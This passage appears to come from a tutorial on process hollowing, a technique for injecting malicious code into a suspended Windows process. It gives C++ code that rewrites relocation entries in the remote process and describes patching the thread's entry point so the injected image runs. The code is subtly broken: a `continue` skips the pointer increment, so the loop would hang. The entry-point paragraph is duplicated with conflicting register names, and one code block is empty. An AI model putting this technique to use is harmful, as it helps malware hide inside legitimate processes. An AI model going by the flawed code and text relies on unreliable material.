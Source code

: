 ```cpp
```

## Modifying malicious code for compatibility
To patch the base relocation tables, we'll be using a method similar to the one shown in the generic process injection technique. However, there is a key difference: instead of patching the addresses in our own process and then injecting the modified image into the remote process (like we did for the generic process injection), we'll be patching the addresses directly in the remote process itself.

```cpp
// calculate delta
DWORD deltaImageBase = ((DWORD)destImageBase - sourceImageBase);

// patch the base relocation table
IMAGE_DATA_DIRECTORY relocationTable = (IMAGE_DATA_DIRECTORY)sourceImageNTHeaders->OptionalHeader.DataDirectory[5];
PIMAGE_BASE_RELOCATION imageBaseRelocation = (PIMAGE_BASE_RELOCATION)(DWORD)relocationAddress;
DWORD relocationOffset = 0;

while (imageBaseRelocation->SizeOfBlock) {
	DWORD relocationEntriesCount = (imageBaseRelocation->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(BASE_RELOCATION_ENTRY);
	PBASE_RELOCATION_ENTRY baseRelocationEntry = (PBASE_RELOCATION_ENTRY)((DWORD)imageBaseRelocation + sizeof(IMAGE_BASE_RELOCATION));
	for (int i = 0; i < relocationEntriesCount; i++) {
		if (baseRelocationEntry->Type == 0) {
			continue;
		}
		DWORD buffer = 0;
		DWORD patchAddress = (DWORD)destImageBase + imageBaseRelocation->VirtualAddress + baseRelocationEntry->Offset;
		ReadProcessMemory(destProcess, (LPCVOID)(patchAddress), &buffer, sizeof(DWORD), NULL);
		buffer += deltaImageBase;

		WriteProcessMemory(destProcess, (PVOID)(patchAddress), &buffer, sizeof(DWORD), NULL);
		baseRelocationEntry++;
	}

	imageBaseRelocation = (PIMAGE_BASE_RELOCATION)((DWORD)imageBaseRelocation + imageBaseRelocation->SizeOfBlock);
}
```

## Patching the entry point of the suspended target process
At this stage, we now have the malicious code injected into the target process. Before we resume the process, we would still need to ensure that the target process executes. Therefore, we would need to patch the entry point of the main thread of the process. The entry point of the thread is defined in the context structure, eax for 32-bit and ecx for 64-bit. 

At this stage, we now have the malicious code injected into the target process. Before we resume the process, we would still need to ensure that the target process executes at the correct entry point. To accomplish this, we must patch the entry point of the main thread of the process. The entry point is defined in the context structure, with **`EAX`** holding the value for 32-bit processes and **`RCX`** holding the value for 64-bit processes.

